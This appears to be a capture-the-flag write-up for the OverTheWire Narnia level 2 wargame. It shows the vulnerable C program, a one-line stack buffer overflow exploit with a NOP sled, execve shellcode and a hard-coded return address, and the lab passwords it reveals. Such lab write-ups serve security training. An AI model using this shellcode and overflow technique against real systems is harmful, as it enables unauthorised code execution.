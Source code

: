 # narnia 2

    # ssh narnia2@narnia.labs.overthewire.org
    password: nairiepecu

    # cat /games/narnia/narnia2.c

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
            printf("Usage: %s argument\n", argv[0]);
            exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
    }

    # /games/narnia/narnia2 `python -c 'print "\x90"*108+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*4+"\xd0\xd5\xff\xff"'`

    # cat /etc/narnia_pass/narnia3
    vaequeezee

